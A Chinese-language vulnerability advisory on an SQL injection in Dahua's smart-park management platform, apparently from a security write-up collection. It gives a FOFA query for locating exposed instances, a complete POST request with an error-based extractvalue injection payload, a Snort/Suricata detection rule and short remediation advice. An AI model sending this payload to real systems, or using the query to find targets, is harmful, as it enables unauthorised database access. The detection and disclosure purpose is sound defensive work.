

# 大华-智慧园区综合管理平台 login_updateUserAdmOnlineStat 存在SQL注入漏洞

大华-智慧园区综合管理平台 login_updateUserAdmOnlineStat 存在SQL注入漏洞，攻击者可进行sql注入攻击获取数据库信息或者权限。

# 影响版本

大华-智慧园区综合管理平台

# **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 是 | 已公开 | 已公开 | 已知 |

## 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

# 漏洞复现

FOFA：app="dahua-智慧园区综合管理平台"

POC/EXP：

```
POST /admin/login_updateUserAdmOnlineStat.action HTTP/1.1
Host: 127.0.0.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Encoding: gzip
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.6,en;q=0.5
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:154.0) Gecko/20100101 Firefox/154.0

loginName=1' xor extractvalue(1,concat(0x7e,version(),0x7e)) xor '&isAdmOnline=1
```



sonrt规则：

```
alert http any any -> $HOME_NET any (
    msg:"大华智慧园区综合管理平台 - /admin/login_updateUserAdmOnlineStat.action loginName extractvalue报错注入";
    flow:to_server,established;
    http.method; content:"POST";
    http.uri;
        content:"/admin/login_updateUserAdmOnlineStat.action";
        fast_pattern;
    http.content_type; content:"application/x-www-form-urlencoded";
    http.request_body;
        content:"loginName=";
        content:"extractvalue("; distance:0; nocase;
        content:"concat("; distance:0; nocase;
        content:"version()"; distance:0; nocase;
        content:"xor"; distance:0; nocase;
    metadata:
        service http,
        affected_product "大华 智慧园区综合管理平台",
        vulnerability_type "Error-based SQL Injection",
        severity "high";
    classtype:web-application-attack;
    sid:1000765;
    rev:1;
    priority:1;
)
```

# 漏洞修复

关闭互联网暴露面或接口设置访问权限，升级至安全版本。
